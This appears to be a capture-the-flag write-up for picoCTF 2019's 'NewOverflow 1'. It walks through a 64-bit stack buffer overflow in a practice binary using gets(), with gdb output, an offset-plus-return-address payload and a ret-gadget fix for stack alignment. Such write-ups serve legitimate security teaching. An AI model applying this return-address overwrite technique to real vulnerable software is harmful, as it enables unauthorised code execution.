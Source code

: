 # NewOverflow 1

This challenge is basically a 64-bit Buffer Overflow .What used to be 4 bytes is now 8 bytes.

The only difference is the size of the memory spaces. If we happen to specify an address greater than **0x00007fffffffffff** It will raise an exception.




## Taking control of RIP

From the disassembly of the vuln function we can see that the buffer is at address **rbp-0x40** 
``` assembly
   0x00000000004007cc <+0>:     push   rbp
   0x00000000004007cd <+1>:     mov    rbp,rsp
   0x00000000004007d0 <+4>:     sub    rsp,0x40
   0x00000000004007d4 <+8>:     lea    rax,[rbp-0x40]
   0x00000000004007d8 <+12>:    mov    rdi,rax
   0x00000000004007db <+15>:    mov    eax,0x0
   0x00000000004007e0 <+20>:    call   0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leave  
   0x00000000004007e7 <+27>:    ret    

```
So, we input 0x40 bytes to get to rbp & 0x8 bytes to override rbp + 0x6 bytes to override rip(so we avoid raising an exception)

now, load up gdb and try out your exploit.

``` gdb
  gdb-peda$ r < <(python -c 'print("A"*64+"B"*8+"C"*6)')  
  Starting program: /home/arch3r/p1c0CTF_2019/N3w_0v3rflow/vuln < <(python -c 'print("A"*64+"B"*8+"C"*6)')
  Welcome to 64-bit. Give me a string that gets you the flag: 

  Program received signal SIGSEGV, Segmentation fault.
  Stopped reason: SIGSEGV
  0x0000434343434343 in ?? ()


```
We get control of eip..!

## Scripting the Exploit

We put in the address of the flag() ```\x67\x07\x40\x00\x00\x00\x00\x00```function instead of ```"C"*6``` to change code flow towards our flag() function.

We expect this to give us the flag ...but it doesn't .We end up getting a segfault.
``` bash
  arch3r@1nv4d3r:~/p1c0CTF_2019/N3w_0v3rflow$ python -c 'print("A"*72+"\x67\x07\x40\x00\x00\x00\x00\x00")' | ./vuln
  Welcome to 64-bit. Give me a string that gets you the flag: 
  Segmentation fault (core dumped)
```
Let's inspect this using gdb ..

## Debugging the Exploit

After setting a breakpoint at flag() in gdb ,we see that our exploit did actually override rip correctly and we do end up in the flag() function

``` gdb
  gdb-peda$ r < <(python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
  Starting program: /home/arch3r/p1c0CTF_2019/N3w_0v3rflow/vuln < <(python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
  Welcome to 64-bit. Give me a string that gets you the flag: 
  Breakpoint 1, 0x0000000000400767 in flag ()

```
lets continue execution till the segfault

```gdb
  Stopped reason: SIGSEGV
  buffered_vfprintf (s=s@entry=0x7ffff7fa76a0 <_IO_2_1_stdout_>, format=format@entry=0x7fffffffdee8 "flag{A_n3w_0v3rflow}\n", args=args@entry=0x7fffffffde08, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:2377
  2377    vfprintf-internal.c: No such file or directory.
```
Ok .. so we ended up messing the stack alignment with our payload, we have to make sure that rsp is 16-bit aligned when we enter into the flag function.
The simple fix for this is to use a ret ROPgadget ,it executes a ret instruction right before the jump to flag() which helps align the rsp register.

lets add this to our exploit and run it.
```bash
[+] Starting local process './vuln': pid 12338
Welcome to 64-bit. Give me a string that gets you the flag: 

[*] Switching to interactive mode
flag{A_n3w_0v3rflow}
```

there we go..!

